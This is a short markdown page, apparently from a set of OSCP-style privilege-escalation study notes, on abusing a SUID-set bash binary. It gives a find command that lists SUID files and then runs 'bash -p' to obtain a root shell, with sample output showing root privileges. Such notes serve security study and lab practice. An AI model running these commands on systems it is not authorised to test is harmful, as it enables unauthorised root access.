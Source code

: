 ```yaml
---
layout: default
title: Bash
parent: SUID
nav_order: 6
---
```


# Bash

---

## Check SUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

We can run _/usr/bin/bash_ with root privileges to get a root shell.

```bash
-bash-5.0$ /usr/bin/bash -p
bash-5.0# id
uid=1000(oscp) gid=1000(oscp) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd),1000(oscp)
bash-5.0# whoami
root
```
